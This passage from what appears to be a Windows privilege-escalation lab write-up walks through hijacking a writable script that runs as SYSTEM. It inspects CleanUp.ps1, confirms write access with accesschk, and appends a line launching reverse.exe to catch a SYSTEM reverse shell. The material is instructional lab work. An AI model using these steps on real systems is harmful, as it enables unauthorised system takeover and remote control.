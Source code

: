 In this task, we'll exploit a custom script: `CleanUp.ps1` that's running as SYSTEM. Let's get some information:

```console
C:\Users\user> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log

C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```

From the comments in the script, we now know that this is set up to run every minute. From `accesschk.exe` we know that we have RW access for this script. So it's now just a matter of overwriting the contents of the script with what we want it to do. One of the simple changes is to make the script execute our `reverse.exe` so that we can receive a reverse shell when it's executed. This can be done by executing:

```console
C:\Users\user> echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

This will append the line `C:\PrivEsc\reverse.exe` to the end of the script, which can be verified by geting the contents of the script file:

```console
C:\Users\user> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\PrivEsc\reverse.exe
```

Now all we need to do is wait with a listener ready to receive our reverse shell connection with SYSTEM privileges!

### Insecure GUI Apps
